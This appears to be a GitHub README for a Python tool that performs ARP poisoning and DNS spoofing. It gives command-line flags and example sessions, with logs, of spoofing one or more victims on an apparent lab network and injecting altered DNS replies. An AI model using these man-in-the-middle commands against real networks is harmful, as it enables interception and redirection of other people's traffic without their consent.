 # ARPython
An APR and DNS poisoning tool writting in python.

### Requirements

1. Linux based system
2. Python 2.7
3. Scapy installed
4. Python TKinter installed if you want to use the GUI

### Usage

To use the tool you will need to download/clone all the files. If you don't want to use the GUI you can leave the gui.py file out.
This script needs elevated rights for some actions. To launch navigate to the folder and use command `sudo python arppython.py`.
A help command will come up that will be pretty self explanatory. All possible flags will be listed here though.

`-h. --help` - Prints the help screen

`-g, --gui` - Opens the GUI

`-a, --arp {s,silent,n,normal,r,restore}` - Use this command to start ARP poisoning. Specify either the silent or non-silent method or the restore method which will restore the ARP tables

`-d, --dns INTERFACE` - Use this command to start DNS poisoning on the given interface, if used without the ARP spoofing it assumes that you have done or are doing that some other way

`-di, dnsip IP` - Use this command to specify a specific IP to DNS spoof

`-p, --packets AMOUNT` - Specify a custom amount of packets for the normal ARP poison attack

`-vi, --victim VICTIM` - Specify the IP address of the victim

`-gt, --gateway GATEWAY` - Specify the IP address of the gateway to use for the attack

`-vm, --victimmac VICTIMMAC` - Specify the mac address of the victim, can be left blank. If blank the script with grab the mac address from the specified victim IP. If you want multiple victims just separate them by comma and the program will start attacking them simultaneously

`-gm, --gatewaymac GATEWAYMAC` - Specify the mac address of the gateway, can be left blank just as the victim MAC

`-am, --attackermac ATTACKERMAC` - Specify a custom attacker MAC address for the attacker, if left blank the current machines MAC will be used

`-s, --scan` - Scans which network interfaces are available and prints information about them

`-si, --scaniface IFACE` - Scans a given network interface for active IP and MAC addresses. Just specifying the IP address is enough for this command

`-db, --debug` - Set the logging level to debug

`-vb, --verbose` - Set the logging level to verbose

When the tool is busy it can at any point be interrupted by using `CTRL + C`. All the logging info will also be saved to log.txt where you can see exactly what happened.

### Examples

Some examples to show usage

##### Doing a scan, scan interface and then normal ARP poisoning attack with 5 packets

```buildoutcfg
sudo python arpython.py -s
2019-03-31 22:50:35,567 - INFO - Scanning for interfaces
2019-03-31 22:50:35,569 - INFO - The following interfaces are present: 
2019-03-31 22:50:35,569 - INFO - 10.0.3.0/24, enp0s8
2019-03-31 22:50:35,569 - INFO - 169.254.0.0/16, enp0s3
2019-03-31 22:50:35,569 - INFO - 192.168.56.0/24, enp0s3

sudo python arpython.py -si 192.168.56
2019-03-31 22:50:58,794 - INFO - Matching the interface
2019-03-31 22:50:58,795 - INFO - Scanning for devices
2019-03-31 22:50:58,795 - INFO - Using scapy arping with 192.168.56.0/24 on enp0s3
2019-03-31 22:51:04,040 - INFO - 0a:00:27:00:00:10 192.168.56.1
2019-03-31 22:51:04,040 - INFO - 08:00:27:92:de:10 192.168.56.100

sudo python arpython.py -a n -vi 192.168.56.100 -gt 192.168.56.1 -p 5
2019-03-31 22:53:54,270 - INFO - Grabbing the victims MAC address(es) since nothing was specified
2019-03-31 22:53:54,377 - INFO - 08:00:27:92:de:10
2019-03-31 22:53:54,378 - INFO - Grabbing the gateways MAC address since nothing was specified
2019-03-31 22:53:54,473 - INFO - 0a:00:27:00:00:10
2019-03-31 22:53:54,473 - INFO - Starting ARP Poison
2019-03-31 22:53:54,474 - INFO - Start spoofing network on 192.168.56.100
2019-03-31 22:53:54,474 - INFO - Starting iteration 0 for 192.168.56.100
2019-03-31 22:53:54,475 - INFO - Spoofing 192.168.56.100
.
.
2019-03-31 22:54:02,907 - INFO - Starting iteration 4 for 192.168.56.100
2019-03-31 22:54:02,908 - INFO - Spoofing 192.168.56.100
2019-03-31 22:54:05,028 - INFO - Done spoofing

sudo python arpython.py -a r -vi 192.168.56.100 -gt 192.168.56.1
2019-03-31 23:05:54,418 - INFO - Grabbing the victims MAC address(es) since nothing was specified
2019-03-31 23:05:54,553 - INFO - 08:00:27:92:de:10
2019-03-31 23:05:54,553 - INFO - Grabbing the gateways MAC address since nothing was specified
2019-03-31 23:05:54,637 - INFO - 0a:00:27:00:00:10
2019-03-31 23:05:54,638 - INFO - Starting ARP Restore
2019-03-31 23:05:54,640 - INFO - Starting ARP restoration for 192.168.56.100
2019-03-31 23:05:54,758 - INFO - Restoration successful
```

##### ARP spoofing two targets and also applying DNS spoofing
```buildoutcfg
sudo python arpython.py -a n -vi "192.168.56.101,192.168.56.102" -gt 192.168.56.1 -d enp0s3
2019-04-08 16:11:48,385 - INFO - Grabbing the victims MAC address(es) since nothing was specified
2019-04-08 16:11:48,562 - INFO - Grabbing the gateways MAC address since nothing was specified
2019-04-08 16:11:48,650 - INFO - Starting ARP Poison
2019-04-08 16:11:48,651 - INFO - Start spoofing network on 192.168.56.101
2019-04-08 16:11:48,652 - INFO - Start spoofing network on 192.168.56.102
2019-04-08 16:11:48,652 - INFO - Starting iteration 0 for 192.168.56.101
2019-04-08 16:11:48,652 - INFO - Starting iteration 0 for 192.168.56.102
2019-04-08 16:11:48,653 - INFO - Spoofing 192.168.56.102
2019-04-08 16:11:48,653 - INFO - Spoofing 192.168.56.101
2019-04-08 16:11:50,654 - INFO - Starting DNS spoofing
2019-04-08 16:11:50,787 - INFO - Starting iteration 1 for 192.168.56.101
2019-04-08 16:11:50,787 - INFO - Spoofing 192.168.56.101
2019-04-08 16:11:50,842 - INFO - Starting iteration 1 for 192.168.56.102
2019-04-08 16:11:50,843 - INFO - Spoofing 192.168.56.102
.
.
2019-04-08 16:11:55,123 - INFO - Spoofing 192.168.56.102
2019-04-08 16:11:56,826 - INFO - Packet found. Spoofing DNS packet
2019-04-08 16:11:56,882 - INFO - Sending altered packet
2019-04-08 16:11:57,155 - INFO - Starting iteration 4 for 192.168.56.101
2019-04-08 16:11:57,155 - INFO - Spoofing 192.168.56.101
2019-04-08 16:11:57,262 - INFO - Starting iteration 4 for 192.168.56.102
2019-04-08 16:11:57,262 - INFO - Spoofing 192.168.56.102
.
.
2019-04-08 16:12:13,996 - INFO - Done spoofing
2019-04-08 16:12:14,132 - INFO - Done spoofing
2019-04-08 16:12:57,453 - INFO - Packet found. Spoofing DNS packet
2019-04-08 16:12:57,518 - INFO - Sending altered packet
2019-04-08 16:12:57,518 - INFO - DNS Spoofing stopped
2019-04-08 16:12:57,518 - INFO - DNS Spoofing stopped

```
